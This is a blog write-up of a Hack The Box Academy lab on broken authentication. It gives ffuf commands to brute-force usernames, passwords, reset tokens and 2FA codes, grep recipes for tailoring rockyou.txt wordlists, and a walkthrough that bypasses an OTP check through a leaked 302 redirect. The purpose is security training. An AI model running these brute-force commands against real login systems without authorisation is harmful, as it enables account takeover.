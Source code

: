 ```yaml
---
layout: post
title:  "Hack The Box - Academy - Broken Authentication"
description: "Explore this detailed walkthrough of Hack The Box Academy's Broken Authentication module. Learn effective techniques to perform login brute-force attacks, authentication bypass techniques, and elevate your penetration testing skills with step-by-step insights from Zwarts Sec."
date:   2024-10-31 11:50
image:  /images/htb/broken-auth/logo.png
tags:   [authentication,cbbh]
categories: [htbacademy]
---
```


### Explore this detailed walkthrough of Hack The Box Academy's Broken Authentication module. Learn effective techniques to perform login brute-force attacks, and authentication bypass techniques

>
<b>Links:</b>
<br/>
<a href="https://academy.hackthebox.com/module/details/80">Broken Authentication</a><br/>
<a href="https://jacozwarts.github.io/images/htb/broken-auth/Broken_Authentication_Module_Cheat_Sheet.pdf">Broken Authentication - Cheat Sheet</a><br/>
<a href="https://www.cirt.net/passwords">CIRT.net - Default Passwords</a><br/>

<br/>

## Notes:

### Create custom wordlists by using grep and rockyou.txt
```
grep '[[:upper:]]' /usr/share/wordlists/seclists/rockyou.txt | grep '[[:lower:]]' | grep '[[:digit:]]' | grep -E '.{10}' > custom_wordlist.txt
```
#### `Count number` of line in file:

```
wc -l custom_wordlist.txt
```

#### Using `ffuf` with POST:
```
ffuf -w ./custom_wordlist.txt -u {TARGET} -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=admin&password=FUZZ" -fr "Invalid username"
```

#### Use seq to generate pins:

```
seq -w 0 9999 > tokens.txt
```

#### Extract details from csv:
```
cat world-cities.csv | cut -d ',' -f1 > city_wordlist.txt
```

#### Using ffuf with GET:
```
ffuf -w ./tokens.txt -u http://{TARGET}/reset_password.php?token=FUZZ -fr "The provided token is invalid"
```

#### Using ffuf with Session-Token:
```
ffuf -w ./tokens.txt -u http://{TARGET}/{ENDPOINT} -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=fpfcm5b8dh1ibfa7idg0he7l93" -d "otp=FUZZ" -fr "Invalid 2FA Code"
```
<hr/>

## Skills Assessment
><b>Overview:</b>
You are tasked to perform a security assessment of a client's web application. For the assessment, the client has not provided you with credentials. Apply what you have learned in this module to obtain the flag.

### Explore the App’s Main Features
First, let’s check out the app's basic functions. We see options for logging in and registering, so let’s start by creating a test account with details `Test:Test`

### Make Note of Password Requirements
During registration, the app shows us its password criteria. Let’s keep that in mind—this info will come in handy when we need to create a custom wordlist for brute-forcing later.

![Password Criteria](/images/htb/broken-auth/skills-assessment-password-criteria.png)


### Log In with Our Test Account
Create an account using `Test:Password1234`. Now that we’ve got the account set up, let’s log in. Success! We’re redirected to profile.php.

### Spot the Restricted Access Message
On the profile page, we see a message saying, `"You do not have admin privileges. The site is still under construction and only available to admins at this time."` Since no other features are available, it’s clear that admin access will be the key to progressing further.

![Profile Page](/images/htb/broken-auth/skills-assessment-profile-page.png)

### Experiment with Brute-Forcing Admin Login
Let’s test the login form to understand how it responds to different credentials:

First, we try `admin:admin`, which gives us an `"Unknown username and password"` error.
Next, we use our account's username `Test` with an incorrect password, which returns `"Invalid Credentials"`.
Now we know what specific error messages to look for, giving us a way to validate results in our brute-force attempt.

### Pick Wordlists for the Brute-Force Attack
To find the correct username, we’ll start by using `seclists/Usernames/xato-net-10-million-usernames.txt`.
Once we have a valid username.

```
ffuf -w /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -u http://{TARGET}:{PORT}/login.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=FUZZ&password=1" -fr "Unknown username or password."
```

### Creating the password wordlist

To target the login credentials more efficiently, we’ll build a custom password list that meets the `password criteria` we noted earlier. We’ll start with `rockyou.txt` and use `grep` to filter only the passwords that match the format.

Grep function to extract passwords from wordlist:

```
grep -E '^[[:alnum:]]{12}$' /usr/share/wordlists/rockyou.txt | grep -E '[0-9]' | grep -E '[a-z]' | grep -E '[A-Z]' > passwords.txt
```

### Launch the Brute-Force Attack
Now that we have a wordlist tailored to the password criteria, we’re ready to begin our brute-force attack to find valid credentials. Using the `username` we found earlier and custom password wordlist, we’ll brute-force the login until we find the valid credentials.

Find valid credentials:
```
ffuf -w passwords.txt -u http://{TARGET}:{PORT}/login.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username={username}&password=FUZZ" -mc 302
```

### Handle the OTP Prompt
Once we’ve successfully logged in with the valid credentials, we’re met with an OTP prompt. However, there’s no indication of how long the OTP pin should be, which means we can’t effectively brute-force the OTP. This prompts us to consider alternative methods for bypassing the OTP.

![OTP Page](/images/htb/broken-auth/skills-assessment-password-otp.png)

### Attempt Direct Access to `profile.php`
Since we identified `profile.php` earlier when logged in with our `Test` account, let’s try directly accessing this page using the valid credentials we found. This time, the UI redirects us to an OTP page (2fa.php). Here, we notice a 302 redirect response from profile.php. Upon investigating this `302` request more closely, we can spot the flag embedded within the request itself.

![Profile Page](/images/htb/broken-auth/skill-assessment-redirect-request.png)


<hr/>